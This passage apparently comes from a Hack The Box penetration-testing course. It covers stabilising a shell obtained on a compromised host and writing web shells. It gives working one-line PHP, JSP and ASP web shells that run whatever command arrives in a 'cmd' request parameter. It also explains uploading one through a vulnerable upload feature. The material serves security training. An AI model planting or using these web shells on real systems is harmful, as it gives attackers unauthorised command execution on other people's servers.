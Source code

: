 We may notice that our shell does not cover the entire terminal. To fix  this, we need to figure out a few variables. We can open another  terminal window on our system, maximize the windows or use any size we  want, and then input the following commands to get our variables:    

```shell-session
Bonzo@htb[/htb]$ echo $TERM

xterm-256color
```

```shell-session
Bonzo@htb[/htb]$ stty size

67 318
```

```shell-session
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

## Web Shell

The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

#### Writing a Web Shell

First of all, we need to write our web shell that would take our command through a `GET` request, execute it, and print its output back. A web shell script is  typically a one-liner that is very short and can be memorized easily.  The following are some common short web shell scripts for common web  languages:

Code: php

```php
<?PHP system($_GET['cmd']);?>
```

Code: jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

Code: asp

```asp
<% eval request("cmd") %>
```

#### Uploading a Web Shell

Once we have our web shell, we need to place our web shell script  into the remote host's web directory (webroot) to execute the script  through the web browser. This can be through a vulnerability in an  upload feature, which would allow us to write one of our shells to a  file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.


[1]: https://en.wikipedia.org/wiki/Tmux	"tmux on wikipedia"